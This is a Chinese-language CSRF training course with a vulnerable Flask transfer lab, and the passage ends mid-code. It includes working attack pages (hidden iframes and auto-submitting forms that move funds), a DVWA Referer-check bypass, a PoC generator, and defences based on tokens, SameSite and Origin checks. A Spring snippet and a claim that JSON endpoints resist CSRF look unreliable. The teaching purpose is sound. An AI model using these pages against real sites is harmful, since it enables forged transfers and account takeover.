





# CSRF 跨站请求伪造详解
## 📚 课程目录
| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | CSRF 基础 + 同源/Cookie 策略 + GET 型 CSRF | 60 min | 手写 GET 型 CSRF PoC |
| 第 2 课 | POST 型 CSRF + JSON CSRF + 靶场复现 | 70 min | 完成 DVWA / pikachu 通关 |
| 第 3 课 | CSRF 防御：Token + SameSite + Referer | 60 min | 在自建代码层实现完整防御 |
| 第 4 课 | CSRF + XSS 组合 + 真实案例 + 进阶 | 50 min | 理解 CSRF 与 XSS 协同 |


> 🎯 **学完本课你应当能做到**：
> 1. 30 秒内判断某接口是否 CSRF 漏洞
> 2. 写出 GET / POST / JSON 三型 CSRF 的完整 PoC HTML
> 3. 实现服务端 Token、SameSite Cookie、Referer 校验三层防御
> 4. 解释 CSRF 和 XSS 的本质区别与协同利用

---

# 第 1 课 · CSRF 基础 + 同源/Cookie 策略 + GET 型 CSRF
## 1.1 一个故事：CSRF 是怎么发生的？
### 场景
```plain
9:00  小明登录了银行 bank.com，浏览器保存了 session Cookie
9:30  小明没退出，又开了个新标签页，逛论坛 evil-forum.com
9:35  论坛有个帖子：
9:35  浏览器加载图片 → 自动向 bank.com 发 GET 请求
9:35  关键：浏览器会自动带上 bank.com 的 Cookie！
9:35  银行服务器：Cookie 合法 → 是小明操作 → 执行转账
9:36  小明：??? 我的钱去哪了？
```

### 核心问题
浏览器**自动**把 Cookie 带上发请求 → 这就是 CSRF 的根因。

---

## 1.2 CSRF 的定义
**CSRF (Cross-Site Request Forgery) 跨站请求伪造**：  
攻击者诱导**已登录用户**访问恶意页面，**借用用户的登录态**发起非自愿请求。



---

## 1.3 CSRF vs XSS：本质区别
| 维度 | XSS | CSRF |
| --- | --- | --- |
| 攻击对象 | 网站**自身**的页面 | 网站的**接口** |
| 利用什么 | JS 注入到目标页面 | 浏览器自动带 Cookie |
| 攻击者位置 | 在目标网站的页面内 | 在另一个恶意网站 |
| 是否需要登录 | 不一定 | **必须**受害者已登录 |
| 是否需要 JS | **是** | 不一定（GET 型只用 img） |
| 危害 | 读数据 / 控制 SPA | **改数据**（增删改） |

### 一句话区分
```plain
XSS  → 在 bank.com 内执行 JS
CSRF → 在 evil.com 引诱浏览器去 bank.com
```

 🎯 **核心认知**：
 + XSS 是"我在你的网页里写代码"
 + CSRF 是"我让你的浏览器替我提交表单"

---

## 1.4 同源策略 vs Cookie 策略
### 一个常见误区
"同源策略不是禁止跨域吗？为什么 CSRF 还能成功？"

### 关键真相


**重要：** 浏览器跨域请求**会发出**，且**会自动带 Cookie**。  
⭐只是 JS **读不到响应**（除非 CORS 允许）。  
⭐但 CSRF **不在乎响应**——只要请求到达服务器、操作生效即可。

---

## 1.5 Cookie 的关键属性
### Cookie 的两大分类
```plain
会话 Cookie：浏览器关闭即丢失
持久 Cookie：到期前一直存在
```

### Cookie 的关键标志位
| 标志 | 作用 |
| --- | --- |
| `HttpOnly` | JS 读不到 Cookie（防 XSS 偷） |
| `Secure` | 仅 HTTPS 发送 |
| `SameSite=Strict` | **完全禁止**跨站带 Cookie |
| `SameSite=Lax` | 大多数跨站禁带，但顶级导航 GET 允许 |
| `SameSite=None` | 允许跨站（必须配合 Secure） |
| `Domain` | 生效域名 |
| `Path` | 生效路径 |


### SameSite 详解（核心）


 ⚠️ **现代浏览器默认 SameSite=Lax**（Chrome 80+，2020 起）。  
这意味着**老式 GET 型 CSRF 已经基本失效**。  
但**不意味着 CSRF 不再发生**：
 + POST 型 CSRF 仍可能成功（顶级导航表单提交）
 + 老应用未设置 SameSite
 + 用户用旧浏览器

---

## 1.6 GET 型 CSRF
### 最简单的 CSRF
```html
<!-- 攻击者放在 evil.com 的页面 -->

```

受害者访问 evil.com → 浏览器加载图片 → 自动发 GET 请求带 Cookie → 银行执行转账。

### 经典漏洞代码（服务端）
```php
// transfer.php
<?php
session_start();
if (!isset($_SESSION['user'])) die('未登录');

$to     = $_GET['to'];
$amount = $_GET['amount'];
// ❌ 没有 CSRF 防护，只判断登录
$db->transfer($_SESSION['user'], $to, $amount);
echo "转账成功";
?>
```

**问题**：
+ 用 GET 做状态变更操作（违反 RESTful 原则）
+ 仅靠 Cookie 判断身份，没有附加校验

---

## 1.7 GET 型 CSRF 实操（自建靶场）
```bash
mkdir -p /tmp/csrf-lab
cat > /tmp/csrf-lab/app.py <<'EOF'
from flask import Flask, request, session, redirect
app = Flask(__name__)
app.secret_key = "test"

# 模拟数据库
USERS = {
    "alice": {"balance": 10000},
    "bob":   {"balance": 10000},
    "hacker":{"balance": 0},
}

@app.route("/login/<username>")
def login(username):
    if username in USERS:
        session["user"] = username
    return f"logged in as {username}"

@app.route("/balance")
def balance():
    u = session.get("user")
    if not u: return "login first", 401
    return f"{u} 余额：{USERS[u]['balance']}"

# ❌ 漏洞：GET 接口做状态变更
@app.route("/transfer")
def transfer():
    u = session.get("user")
    if not u: return "login first", 401
    to     = request.args.get("to")
    amount = int(request.args.get("amount", 0))
    if USERS[u]['balance'] < amount: return "余额不足"
    USERS[u]['balance'] -= amount
    USERS[to]['balance']  += amount
    return f"{u} → {to}：{amount} 成功"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF

python3 /tmp/csrf-lab/app.py
```

### 模拟攻击
**步骤 1**：浏览器登录 alice
```plain
http://localhost:5000/login/alice
```

**步骤 2**：检查余额
```plain
http://localhost:5000/balance
→ alice 余额：10000
```

**步骤 3**：恶意攻击者页面（保存为 evil.html，放在 /tmp/evil/）
```bash
mkdir -p /tmp/evil
cat > /tmp/evil/evil.html <<'EOF'
<!DOCTYPE html>
<html>
<body>
<h1>免费领取红包</h1>

<!-- 用户看不到这个图片，但浏览器已经发了请求 -->

</body>

</html>

EOF

cd /tmp/evil && python3 -m http.server 8000
```

**步骤 4**：浏览器访问 `http://localhost:8000/evil.html`

**步骤 5**：检查 alice 余额
```plain
http://localhost:5000/balance
→ alice 余额：5000    ❌ 钱被转走了！
```

 🎯 **关键观察**：
 + alice 没点过任何转账按钮
 + 仅访问了 evil.com 的页面，钱就被转走
 + 这就是 CSRF 的可怕之处

---

## 1.8 GET 型 CSRF 的常见变种
### 1. `` 标签
```html

```

### 2. `<link>`
```html
<link rel="stylesheet" href="http://victim.com/delete?id=1">
```

### 3. `<script>`
```html
<script src="http://victim.com/delete?id=1"></script>

```

### 4. `<iframe>`
```html
<iframe src="http://victim.com/delete?id=1" style="display:none"></iframe>

```

### 5. `<video poster>`
```html
<video poster="http://victim.com/delete?id=1"></video>

```

### 6. CSS `background-image`
```css
body { background-image: url(http://victim.com/delete?id=1); }
```

---

## 1.9 为什么 GET 用于状态变更是错的？
### RESTful 原则
| HTTP 方法 | 语义 | 是否改变状态 |
| --- | --- | :---: |
| GET | 读取资源 | ❌ |
| POST | 创建 | ✅ |
| PUT / PATCH | 更新 | ✅ |
| DELETE | 删除 | ✅ |


### RFC 7231 规定
GET 方法应该是**幂等**的（多次执行结果相同）。  
用于状态变更的接口**不应该用 GET**。


**反例**：早期很多 CMS 用 GET 做删除：
```plain
http://forum.com/admin.php?action=delete&id=123
```

**正例**：现代框架都用 POST/DELETE：
```plain
POST /admin/delete  Body: id=123
DELETE /admin/123
```

---

## 1.10 第 1 课小结
| 知识点 | 一句话 |
| --- | --- |
| CSRF 定义 | 借用受害者登录态发起非自愿请求 |
| 核心机制 | 浏览器自动带 Cookie |
| 与 XSS 区别 | XSS 在站内，CSRF 在站外 |
| 同源策略 | 不限制请求发出，只限制读响应 |
| SameSite=Lax | 现代浏览器默认，挡掉 img 类 GET CSRF |
| GET 型 CSRF | `` |
| RESTful | GET 不应做状态变更 |


### 课间实操（10 分钟）
1. 启动自建 Flask 靶场，浏览器登录 alice
2. 启动 evil 服务器，访问 evil.html
3. 验证 alice 余额减少（确认 CSRF 成功）
4. 把 transfer 接口改成只接受 POST（自修），观察 evil.html 是否还生效

---

# 第 2 课 · POST 型 CSRF + JSON CSRF + 靶场复现
## 2.1 当接口改成 POST
```php
// transfer.php（修复版）
<?php
if ($_SERVER['REQUEST_METHOD'] !== 'POST') die('只允许 POST');
session_start();
if (!isset($_SESSION['user'])) die('未登录');
$to     = $_POST['to'];
$amount = $_POST['amount'];
$db->transfer($_SESSION['user'], $to, $amount);
?>
```

**问题**：`` 只能发 GET，怎么办？

---

## 2.2 POST 型 CSRF：用自动提交的表单


### 自动提交表单 PoC
```html
<!DOCTYPE html>
<html>
<body>
<iframe name="hidden_iframe" style="display:none"></iframe>

<form id="csrf-form" action="http://bank.com/transfer" method="POST" target="hidden_iframe">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="10000">
</form>

<script>document.getElementById('csrf-form').submit();</script>

</body>

</html>
```

### 关键技巧
| 技巧 | 作用 |
| --- | --- |
| `target="hidden_iframe"` | 表单提交到隐藏 iframe，受害者看不到跳转 |
| `style="display:none"` | 表单本身不可见 |
| 自动 `submit()` | 用户没点过任何按钮 |
| method=POST content-type=`application/x-www-form-urlencoded` | 默认表单格式 |


---

## 2.3 POST 型 CSRF 实操
```python
# 升级 csrf-lab，把 transfer 改成 POST
@app.route("/transfer", methods=["POST"])            # ← 关键
def transfer():
    u = session.get("user")
    if not u: return "login first", 401
    to     = request.form.get("to")
    amount = int(request.form.get("amount", 0))
    ...
```

### 恶意页面 evil2.html
```bash
cat > /tmp/evil/evil2.html <<'EOF'
<!DOCTYPE html>
<html>
<body>
<h1>免费抽奖</h1>

<iframe name="hf" style="display:none"></iframe>

<form id="f" action="http://localhost:5000/transfer" method="POST" target="hf">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="3000">
</form>

<script>document.getElementById('f').submit();</script>

</body>

</html>

EOF
```

浏览器登录 alice → 访问 `http://localhost:8000/evil2.html` → alice 余额被扣。

---

## 2.4 当接口要求 application/json 怎么办？
### 现代后端的常见情况
```plain
POST /api/transfer HTTP/1.1
Content-Type: application/json

{"to":"hacker","amount":10000}
```

### 攻击者尝试用 form 提交 JSON
```html
<form action="http://victim/api/transfer" method="POST">
    <input name='{"to":"hacker","amount":10000,"x":"' value='ignored"}'>
</form>
```

服务端看到的：
```plain
Content-Type: application/x-www-form-urlencoded
Body: {"to":"hacker","amount":10000,"x":"=ignored"
```

**问题**：Content-Type 是 form，不是 json，大部分 JSON API 会拒绝。

---

## 2.5 JSON CSRF 的两种真实场景
### 场景 1：服务端只看 body 不看 Content-Type
部分老旧或不严谨的 API：

```python
@app.route("/api/transfer", methods=["POST"])
def transfer():
    data = json.loads(request.data or request.form)
    ...
```

→ **form 提交 JSON body 可成功**。

### 场景 2：利用 fetch + `mode: 'no-cors'`
```html
<script>
fetch('http://victim/api/transfer', {
    method: 'POST',
    mode: 'no-cors',                    ← 关键
    credentials: 'include',             ← 带 Cookie
    headers: {'Content-Type': 'text/plain'},
    body: '{"to":"hacker","amount":10000}'
});
</script>
```

**限制**：`no-cors` 模式下只能发送 **简单请求头**：
+ `application/x-www-form-urlencoded`
+ `multipart/form-data`
+ `text/plain`

**不能直接发**`application/json`。

### 场景 3：Flash 跨域（历史方法，已基本失效）
Adobe Flash 2020 年已 EOL，跳过。

---

## 2.6 CORS 预检（preflight）机制
### 什么是预检？


### 触发预检的条件
满足任一即触发：
+ Content-Type 不是 `application/x-www-form-urlencoded` / `multipart/form-data` / `text/plain`
+ 使用了非简单 Header（如 `X-Token`、`Authorization`）
+ 方法不是 GET / POST / HEAD

### 预检与 CSRF 的关系
 🎯 **核心理解**：  
如果接口要求 `Content-Type: application/json` → **触发预检** → **跨域请求被服务端 CORS 控制**
服务端不返回 `Access-Control-Allow-Origin: evil.com` → 预检失败 → 请求不发。
⭐ **所以：要求 application/json 的接口天然防御了 CSRF！**


---

## 2.7 靶场复现 1：DVWA CSRF
```bash
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
# admin / password
```

### Low 级别
进入 `CSRF` 关卡：

```plain
URL: http://localhost:8080/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change#
```

**漏洞**：直接 GET 改密码。

**PoC**：
```html
<!DOCTYPE html>
<html>
<body>

</body>

</html>

```

受害者登录 DVWA 后访问 evil 页面 → 密码被改成 `hacked`。

### Medium 级别
```php
// 检查 Referer
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
    // 通过
}
```

**绕过**：把 evil 域名设为 `victim.com.evil.com`，或在 URL 中带 `?victim.com`：

```html

```

或者直接把 evil 页面文件名设为 `localhost.html`，Referer 会包含 `localhost`。

### High 级别
```php
// 检查 CSRF Token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

**绕过**：纯 CSRF 绕不过 → 需配合 XSS 偷 Token（第 4 课讲）。

### Impossible 级别
```php
// 要求原密码 + 新密码 + CSRF Token
$pass_curr = $_GET[ 'password_current' ];
```

**防御**：要求用户输入原密码 → 攻击者不知道原密码 → 无法 CSRF。

---

## 2.8 靶场复现 2：pikachu CSRF
```bash
docker run -d --name pikachu -p 8088:80 area39/pikachu
```

### 关卡：CSRF → 修改个人信息
```plain
URL: http://localhost:8088/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=159123&add=nation&email=test&submit=submit
```

GET 修改资料 → 直接构造 img PoC。

### POST 型关卡
```plain
URL: /vul/csrf/csrfpost/csrf_post_edit.php
```

构造自动提交表单 PoC：

```html
<form action="http://localhost:8088/vul/csrf/csrfpost/csrf_post_edit.php" method="POST" target="hf">
    <input type="hidden" name="sex" value="boy">
    <input type="hidden" name="phonenum" value="15900000000">
    <input type="hidden" name="add" value="ijingse">
    <input type="hidden" name="email" value="xss@xss.com">
    <input type="hidden" name="submit" value="submit">
</form>

<iframe name="hf" style="display:none"></iframe>

<script>document.forms[0].submit();</script>

```

---

## 2.9 靶场复现 3：bwapp CSRF
```bash
docker run -d --name bwapp -p 8081:80 raesene/bwapp
# bee / bug
```

### 关卡
+ `Cross-Site Request Forgery (Change Password)`
+ `Cross-Site Request Forgery (Change Secret)`
+ `Cross-Site Request Forgery (Transfer Amount)`

每个关卡都是 GET 型 / POST 型 CSRF 经典案例，方法同 DVWA。

---

## 2.10 CSRF PoC 生成器
### Burp Suite 自带
1. 抓到敏感请求（如修改密码 POST）
2. 右键 → Engagement tools → **Generate CSRF PoC**
3. 自动生成 HTML，可选 "auto-submit script"

### 自制生成脚本
```python
# csrf_poc_gen.py
import sys, urllib.parse

method = input("Method (GET/POST): ").upper()
url = input("URL: ")
params = {}
while True:
    k = input("Param name (空结束): ")
    if not k: break
    v = input(f"Value for {k}: ")
    params[k] = v

if method == "GET":
    qs = urllib.parse.urlencode(params)
    full = f"{url}?{qs}"
    print(f"""
<!DOCTYPE html>
<html><body>

</body></html>

    """)
else:
    inputs = "\n".join(f'    <input type="hidden" name="{k}" value="{v}">' for k,v in params.items())
    print(f"""
<!DOCTYPE html>
<html><body>
<iframe name="hf" style="display:none"></iframe>

<form id="f" action="{url}" method="POST" target="hf">
{inputs}
</form>

<script>document.getElementById('f').submit();</script>

</body></html>

    """)
```

---

## 2.11 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| POST 型 CSRF | 自动提交表单 + 隐藏 iframe |
| JSON CSRF | 要求 application/json 的接口天然难 CSRF |
| 预检机制 | 自定义 Header / JSON Content-Type 触发预检 |
| CORS 控制 | 服务端不返回 ACAO → 跨域请求无法发 |
| DVWA Low | GET 改密码，img 即可 |
| DVWA Medium | Referer 校验，URL 注入绕过 |
| DVWA High | Token 校验，需 XSS 配合 |
| DVWA Impossible | 原密码确认，纯 CSRF 无法绕过 |

### 课间实操（15 分钟）
1. 完成 DVWA CSRF Low / Medium / High 三关
2. 完成 pikachu GET + POST CSRF 关卡，写 PoC
3. 启动自建 Flask，把 transfer 改 POST，验证 evil2.html 触发

---

# 第 3 课 · CSRF 防御：Token + SameSite + Referer
## 3.1 防御方案总览
```
CSRF 防御
├─ L1: Token 校验，最根本
├─ L2: SameSite Cookie，浏览器侧
├─ L3: Referer 校验，附加防线
├─ L4: 二次确认，敏感操作
└─ L5: RESTful 设计，GET 不改状态
```
---

## 3.2 防御方案 1：CSRF Token
### 核心思想

```mermaid
sequenceDiagram
    participant U as 用户
    participant B as 浏览器
    participant S as 服务端

    U->>B: 访问表单页
    B->>S: GET /form
    S-->>B: 返回表单 + Token（服务端 session 内也存）
    Note over B: <input type="hidden" name="csrf" value="random_token">
    U->>B: 提交表单
    B->>S: POST /submit (form data + csrf=token)
    S->>S: 校验 POST 中的 csrf == session 中的 csrf
    Note over S: 不一致 → 拒绝
    S-->>B: 处理结果
```


**为什么有效**：
+ 攻击者在 evil.com **读不到** victim.com 的页面（同源策略）
+ 所以攻击者**无法获取** Token
+ 没有 Token 的请求 → 被拒绝

---

## 3.3 Token 的实现
### 服务端生成
```python
import secrets

@app.route("/form")
def form():
    if "csrf" not in session:
        session["csrf"] = secrets.token_hex(32)
    return render_template("form.html", csrf=session["csrf"])

@app.route("/submit", methods=["POST"])
def submit():
    if request.form.get("csrf") != session.get("csrf"):
        return "CSRF token invalid", 403
    # ... 业务逻辑
```

### 前端表单嵌入
```html
<form method="POST" action="/submit">
    <input type="hidden" name="csrf" value="{{ csrf }}">
    <input name="amount">
    <button>提交</button>

</form>

```

### AJAX 请求带 Token
```javascript
// 从 meta 标签取
const token = document.querySelector('meta[name="csrf-token"]').content;
fetch('/api/submit', {
    method: 'POST',
    headers: {'X-CSRF-Token': token},
    body: JSON.stringify(data)
});
```

---

## 3.4 Token 的存储位置
| 位置 | 优点 | 缺点 |
| --- | --- | --- |
| Session 内 | 服务端可控，最安全 | 占用 session 存储 |
| Cookie（双提交） | 实现简单 | 仍依赖 JS 读 Cookie |
| Meta 标签 | AJAX 友好 | 需要每页都注入 |
| HTTP Header | 灵活 | 仅 AJAX 适用 |
| JWT 内嵌 | 与 JWT 配合 | 复杂 |

### 双提交 Cookie (Double Submit Cookie)
```plain
服务端在 Set-Cookie 中下发 csrf=token
前端 JS 读 Cookie，请求时附在 Header 或 body
服务端校验 Cookie 中的 csrf == Header 中的 csrf
```

```javascript
function getCookie(name) {
    return document.cookie.match(new RegExp(name + '=([^;]+)'))?.[1];
}
fetch('/api', {
    headers: {'X-CSRF-Token': getCookie('csrf')}
});
```

---

## 3.5 Token 的常见绕过（必读）
### 绕过 1：Token 在 GET 参数中
```plain
http://bank.com/transfer?to=hacker&amount=1000&token=abc123
```

**问题**：Token 可能泄露到日志、Referer、浏览器历史。

**绕过方法**：如果其他页面（如错误页）回显 Referer，攻击者从日志拿到 Token。

### 绕过 2：Token 不绑定 Session
```plain
服务端只校验 Token 格式正确，不校验属于哪个用户
→ 攻击者用自己的账号生成 Token，提交给受害者
```

**正解**：Token 必须与 Session 强绑定。

### 绕过 3：Token 永不过期
```plain
攻击者慢慢窃取 Token，等用户不在线时利用
```

**正解**：Token 一次性使用 / 定期轮换。

### 绕过 4：Method 不一致
```python
@app.route("/transfer", methods=["POST"])
@csrf_protect                   # ← 只挂在 POST
def transfer(): ...
```

**绕过**：把 POST 改成 PUT / PATCH / DELETE 可能跳过校验。

**正解**：所有状态变更方法都校验。

### 绕过 5：未校验的子域
```plain
攻击者控制 victim.com 的子域 blog.victim.com
→ 利用子域向主域发请求（部分情况 Cookie 共享）
```

**正解**：所有子域都加 Token 校验。

---

## 3.6 防御方案 2：SameSite Cookie
### 三种 SameSite 取值
| 取值 | 行为 | 适用场景 |
| --- | --- | --- |
| `Strict` | **完全不带**跨站 Cookie | 高敏感（银行） |
| `Lax` | 顶级导航 GET 允许带，其他不带 | 默认推荐（大多数） |
| `None` | 全部带（必须 +Secure） | 第三方 Cookie / SSO |


### Lax 允许的请求
```plain
✅ 用户点击 <a href>           → 带 Cookie
✅ 用户提交表单到第三方         → 带 Cookie
✅ 顶级导航 <link rel="prerender"> → 带 Cookie

❌  / <iframe> / <script src> / fetch → 不带
```

### 设置方法
```http
Set-Cookie: session=abc123; SameSite=Lax; Secure; HttpOnly
```

```python
# Flask
from flask import Flask
app = Flask(__name__)
app.config.update(
    SESSION_COOKIE_SAMESITE="Lax",
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True,
)
```

### SameSite 的局限
```plain
1. 老浏览器不支持（IE11 等）
2. Lax 仍允许顶级导航 → POST 表单提交仍可能 CSRF
3. 子域间的 Cookie 可能仍带
```

---

## 3.7 防御方案 3：Referer / Origin 校验
### 服务端校验 Referer
```python
from urllib.parse import urlparse

@app.before_request
def check_referer():
    if request.method in ["POST", "PUT", "DELETE"]:
        ref = request.headers.get("Referer", "")
        host = request.host
        if ref:
            ref_host = urlparse(ref).netloc
            if not ref_host.endswith(host):
                return "CSRF suspected", 403
        else:
            # 没有 Referer 也要拒绝（部分浏览器隐私模式可能不发）
            return "No Referer", 403
```

### Referer 校验的绕过
| 绕过 | 原理 |
| --- | --- |
| 域名子串匹配 | `stripos(ref, host)` → `localhost.evil.com` 绕过 |
| Referer 为空 | 部分浏览器支持 `Referrer-Policy: no-referrer` |
| `Referer:` 可控 | 历史漏洞，现代浏览器已禁止 |


**正解**：用 `Origin` Header（更可靠）：

```python
origin = request.headers.get("Origin")
if origin and urlparse(origin).netloc != request.host:
    return "CSRF", 403
```

### Origin vs Referer
| 字段 | 是否含 path | 是否含 query | 是否会泄露 |
| --- | :---: | :---: | :---: |
| Referer | ✅ | ✅ | 路径敏感 |
| Origin | ❌ | ❌ | 仅 scheme+host+port |

🎯 **推荐**：CORS / CSRF 校验优先用 `Origin`，隐私友好。

---

## 3.8 防御方案 4：二次确认 + 验证码
### 二次密码确认
```python
@app.route("/change_email", methods=["POST"])
def change_email():
    user = session.get("user")
    curr_pass = request.form.get("current_password")
    if not verify_password(user, curr_pass):
        return "密码错误", 403
    # ...
```

### 短信 / 邮件验证码
敏感操作（转账、修改手机号）必须二次验证。

### CAPTCHA
注册 / 登录 / 关键操作加图形验证码。

---

## 3.9 防御方案 5：RESTful 设计
```python
# ❌ 反模式：GET 改状态
@app.route("/delete")
def delete(): ...

# ✅ 正模式：DELETE 方法
@app.route("/items/<id>", methods=["DELETE"])
@csrf_protect
def delete(id): ...
```

---

## 3.10 现代框架的 CSRF 防御
### Spring Security
```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    @Bean
    SecurityFilterChain chain(HttpSecurity http) throws Exception {
        http.csrf(csrf -> csrf.csrfTokenRepository(
            CSRFTokenRepository.withHttpOnlyFalseCookie()
        ));
        return http.build();
    }
}
```

### Django（默认开启）
```python
MIDDLEWARE = [
    'django.middleware.csrf.CsrfViewMiddleware',
]

# 模板
<form method="POST">
    
    ...
</form>

```

### Flask-WTF
```python
from flask_wtf import FlaskForm
from wtforms import StringField

class MyForm(FlaskForm):
    name = StringField('name')

@app.route("/submit", methods=["POST"])
def submit():
    form = MyForm()
    if form.validate_on_submit():  # 自动校验 CSRF
        ...
```

### Express (Node.js) - csurf 中间件（已废弃，新版用 csrf-csrf）
```javascript
const { doubleCsrf } = require("csrf-csrf");
const { doubleCsrfProtection } = doubleCsrf({
    getSecret: () => "my-secret",
    cookieName: "csrf",
});

app.use(doubleCsrfProtection);
```

---

## 3.11 完整防御示例（自建靶场）
```bash
cat > /tmp/csrf-safe/app.py <<'EOF'
from flask import Flask, request, session, redirect
from urllib.parse import urlparse
import secrets

app = Flask(__name__)
app.secret_key = "test"
app.config.update(
    SESSION_COOKIE_SAMESITE="Lax",
    SESSION_COOKIE_HTTPONLY=True,
)

USERS = {"alice": {"balance":10000}, "hacker":{"balance":0}}

@app.before_request
def csrf_protect():
    if request.method in ("POST","PUT","DELETE"):
        # 多重校验
